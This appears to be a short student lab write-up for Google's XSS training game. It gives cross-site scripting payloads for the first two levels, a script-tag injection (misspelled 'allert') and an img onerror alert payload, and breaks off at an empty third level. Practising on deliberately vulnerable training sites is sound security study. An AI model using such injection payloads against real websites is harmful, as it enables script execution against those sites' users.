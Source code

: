 # Assignment lab 3

## 1. Solve the 6 exercises at the following link: https://xss-game.appspot.com/level1
### 1/6
- insert into the input search field:
``` 
<script>allert()</script>
```
![1/6](./1_of_6.png)
### 2/6
- insert into the input post field:
``` 
<img src='foobar' onerror='alert("xss")'>
```
![2/6](./2_of_6.png)
### 3/6
- insert into the url input:
``` 
```